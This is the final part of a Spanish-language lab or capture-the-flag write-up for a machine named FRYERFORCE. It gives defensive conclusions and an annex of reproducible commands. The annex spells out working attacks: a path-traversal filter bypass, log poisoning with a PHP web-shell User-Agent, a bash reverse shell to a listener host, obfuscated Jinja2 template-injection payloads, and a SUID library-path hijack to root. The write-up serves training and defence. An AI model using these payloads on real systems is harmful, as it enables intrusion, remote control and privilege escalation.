172.17.0.1 - - [16/Nov/2026:15:21:58 +0000] "GET /?sensor=temp_logs.txt HTTP/1.1" 200 180 "-" "<?php system($_GET[c]); ?>"
```

La presencia de `<?php` en el campo `User-Agent` es un indicador de alta fidelidad. También lo es la combinación de `sensor` con wrappers PHP o secuencias de *path traversal* ofuscadas.

### 12.4 Integridad de las capturas

Los hashes SHA-256 de las 20 capturas están en [`screenshots/sha256sums.txt`](screenshots/sha256sums.txt).

---

## 13. Conclusiones

FRYERFORCE demuestra cómo una validación de entrada deficiente puede escalar hasta el control total del sistema cuando se combina con decisiones de configuración inseguras. La cadena tuvo cuatro eslabones principales:

1. **LFI evadible:** un filtro de una sola pasada y un `include()` directo permitieron leer archivos y ejecutar código.
2. **Log poisoning:** el `User-Agent` sin escapar y un log legible por PHP convirtieron la LFI en RCE.
3. **SSTI interna:** una lista negra de caracteres no es una defensa viable; los filtros y escapes de Jinja2 la sortearon sin dificultad.
4. **SUID con `RUNPATH` escribible:** el *loader* cargó una biblioteca controlada por el atacante con privilegios de root.

La lección defensiva es clara: **la validación debe ser por lista blanca y en el punto de uso**, no mediante sustituciones de cadenas; **los logs no deben ser interpretables ni accesibles desde el runtime web**; **las plantillas no deben construirse con entrada del usuario**; y **los binarios privilegiados no deben buscar bibliotecas en rutas escribibles**. Ninguna de estas medidas por sí sola habría detenido toda la cadena, pero la combinación de todas ellas la habría hecho inviable.

### Resultado final

| Flag | Valor |
|---|---|
| Usuario (`industrial_chef`) | `Whoami{REDACTED}` |
| Root | `Whoami{REDACTED}` |

---

## Anexo A — Secuencia reproducible

> Los comandos siguientes resumen la ruta completa. Las direcciones IP y los puertos corresponden al entorno del laboratorio.

```bash
# 1. Reconocimiento
nmap -sV -sC -p22,80 172.17.0.2
curl -sS 'http://172.17.0.2/?sensor=temp_logs.txt'

# 2. LFI: comprobación y bypass
curl -sS -o /dev/null -w 'HTTP %{http_code} bytes=%{size_download}\n' \
  'http://172.17.0.2/?sensor=../../../../etc/passwd'
curl -sS 'http://172.17.0.2/?sensor=....//....//....//....//etc/passwd' | head -3

# 3. Código fuente
curl -sS 'http://172.17.0.2/?sensor=php://filter/convert.base64-encode/resource=/var/www/html/index.php' | base64 -d

# 4. Log poisoning
curl -s -A '<?php system($_GET[c]); ?>' 'http://172.17.0.2/?sensor=temp_logs.txt' -o /dev/null
curl -s 'http://172.17.0.2/?sensor=php://filter/convert.base64-encode/resource=/var/log/apache2/access.log' | base64 -d | tail -1

# 5. RCE y reverse shell (listener en otra terminal: stty -echo; nc -lvnp 4449)
curl -s 'http://172.17.0.2/?sensor=/var/log/apache2/access.log&c=id'
curl -s --get \
  --data-urlencode 'sensor=/var/log/apache2/access.log' \
  --data-urlencode 'c=bash -c "bash -i >& /dev/tcp/172.17.0.1/4449 0>&1"' \
  http://172.17.0.2/

# 6. Enumeración interna (desde la shell www-data)
id; hostname; pwd
netstat -tlnp
curl -s http://127.0.0.1:8000/

# 7. SSTI
curl -s -g 'http://127.0.0.1:8000/report?name={{7*7}}'
curl -s --get --data-urlencode 'name={{lipsum|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x6f\x73")|attr("popen")("id")|attr("read")()}}' \
  http://127.0.0.1:8000/report
curl -s --get --data-urlencode 'name={{lipsum|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x6f\x73")|attr("popen")("cat /home/industrial*/user*")|attr("read")()}}' \
  http://127.0.0.1:8000/report | grep -o 'Whoami{[^}]*}'

# 8. Enumeración SUID y análisis
find / -perm -4000 -type f 2>/dev/null
readelf -d /usr/bin/fryer_audit | head -8
ls -ld /var/tmp /var/tmp/libs 2>&1

# 9. Biblioteca maliciosa y ejecución
# /tmp/rootid.sh: ver sección 8.4
rm -rf /var/tmp/libs; mkdir -p /var/tmp/libs
gcc -shared -fPIC -o /var/tmp/libs/libfryer.so /tmp/libfryer.c
ls -la /var/tmp/libs
/usr/bin/fryer_audit
/tmp/rootbash -p /tmp/rootid.sh
```

---

## Anexo B — Inventario de capturas

| Archivo | Contenido |
|---|---|
| `01_nmap.png` | Escaneo de servicios con Nmap |
| `02_web.png` | Funcionalidad legítima del panel |
| `03_lfi_bypass.png` | *Path traversal* directo y bypass con `....//` |
| `04_index_source.png` | Código fuente de `index.php` |
| `05_log_poison.png` | `User-Agent` malicioso almacenado en el log |
| `06_log_rce.png` | Ejecución de `id` como `www-data` |
| `07_reverse_shell.png` | Listener y conexión de la reverse shell |
| `08_shell_id.png` | `id`, `hostname` y `pwd` |
| `09_internal_ports.png` | `netstat` con el puerto 8000 interno |
| `10_api_root.png` | Endpoint raíz de la API Flask |
| `11_ssti_math.png` | Prueba `{{7*7}}` |
| `12_ssti_rce.png` | RCE como `industrial_chef` |
| `13_user_flag.png` | Flag de usuario |
| `14_suid_find.png` | Enumeración de binarios SUID |
| `15_readelf_rpath.png` | `RUNPATH` y dependencia `libfryer.so` |
| `16_writable_rpath.png` | Permisos de `/var/tmp` y ausencia de `libs` |
| `17_malicious_lib.png` | Código de la biblioteca maliciosa |
| `18_compile.png` | Compilación y colocación de la biblioteca |
| `19_root_flag.png` | `uid=0(root)` y flag final |
| `20_api_source.png` | Código fuente de `salt_api.py` |

Todas las capturas están en [`screenshots/`](screenshots/).

---

## Anexo C — Notas de reproducibilidad y limpieza

- **Comillas en el `User-Agent`:** el primer intento de *log poisoning* utilizó comillas dobles alrededor del payload. Apache las escapa como `\"` y PHP no pudo interpretar el bloque. La secuencia documentada utiliza un payload sin comillas dobles y es la que se reproduce en las capturas.
- **Reinicio del log:** para descartar el intento mal formado y dejar una secuencia limpia se truncó una vez el `access.log` del contenedor desde el host del laboratorio, como tarea de mantenimiento del entorno y no como parte de la explotación. Las capturas corresponden a la ejecución final validada; el log antiguo no se incluye en este paquete público.
- **Zona horaria:** las capturas de Kali muestran hora local (`-0600`); las líneas del `access.log` del contenedor están en UTC. La diferencia explica los desfases aparentes entre figuras.
- **Artefactos dejados en el objetivo:** `/var/tmp/libs/libfryer.so`, `/tmp/libfryer.c`, `/tmp/rootbash`, `/tmp/rootflag`, `/tmp/rootid.sh`, `/tmp/m.sh`, `/tmp/i.sh` y `/tmp/f.sh`. No se instaló persistencia duradera; estos artefactos son el resultado temporal de la prueba. Para limpiar el laboratorio:

```bash
rm -rf /var/tmp/libs
rm -f /tmp/libfryer.c /tmp/rootbash /tmp/rootflag /tmp/rootid.sh /tmp/m.sh /tmp/i.sh /tmp/f.sh
```

- **Evidencia conservada:** el paquete público incluye el informe, las 20 capturas y sus hashes en `screenshots/sha256sums.txt`.

---

*Fin del informe.*
